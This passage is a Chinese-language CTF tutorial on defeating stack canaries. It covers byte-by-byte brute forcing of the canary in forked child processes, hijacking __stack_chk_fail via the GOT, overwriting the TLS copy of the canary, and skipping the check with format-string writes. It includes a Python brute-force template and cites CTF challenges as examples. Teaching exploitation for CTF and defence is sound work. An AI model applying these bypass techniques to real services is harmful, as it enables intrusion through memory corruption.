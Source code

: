 ### 逐字节爆破Canary

每次进程重启后的 Canary 不同，但是同一个进程中的不同线程的 Canary 是相同的，并且 通过 fork 函数创建的子进程的 Canary 也是相同的，因为 fork 函数会直接拷贝父进程的内存，就是子进程会继承父进程的Canary。

当我们子进程由于Canary判断不正确导致程序crash（崩溃）后，父进程不会Crash。利用这样的特点，彻底逐个字节将Canary爆破出来，爆破模板如下：

```python
print "[+] Brute forcing stack canary "

start = len(p)
stop = len(p)+8

while len(p) < stop:
   for i in xrange(0,256):
      res = send2server(p + chr(i))

      if res != "":
         p = p + chr(i)
         #print "\t[+] Byte found 0x%02x" % i
         break

      if i == 255:
         print "[-] Exploit failed"
         sys.exit(-1)


canary = p[stop:start-1:-1].encode("hex")
print "   [+] SSP value is 0x%s" % canary
```

### 劫持__stack_chk_fail 函数 

已知 Canary 失败的处理逻辑会进入到 `__stack_chk_fail`ed 函数，`__stack_chk_fail`ed 函数是一个普通的延迟绑定函数，可以通过修改 GOT 表劫持这个函数。

**例题**

* 参见 ZCTF2017 Login，利用方式是通过 fsb 漏洞篡改 `__stack_chk_fail` 的 GOT 表，再进行 ROP 利用

* [xman babystack](https://www.jianshu.com/p/110f715c210f)

### 覆盖 TLS 中储存的 Canary 值

已知 Canary 储存在 TLS 中，在函数返回前会使用这个值进行对比。当溢出尺寸较大时，可以同时覆盖栈上储存的 Canary 和 TLS 储存的 Canary 实现绕过。

**例题**

* StarCTF2018 babystack

### 绕过canary

这种操作的核心思想就是想办法让他不执行canary的报错或者直接跳过canary的检查。

利用格式化字符串或者数组下标越界，可以栈地址任意读写，不必**连续**向栈上写，直接写ebp和ret因此不会触发Canary检查。也就是不覆写canary。



## **参考资料**

[1] ctf-wiki.[canary-zh](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/mitigation/canary-zh/)

[2] 23R3F.[PWN之canary骚操作](https://www.jianshu.com/p/c3624f5dd583)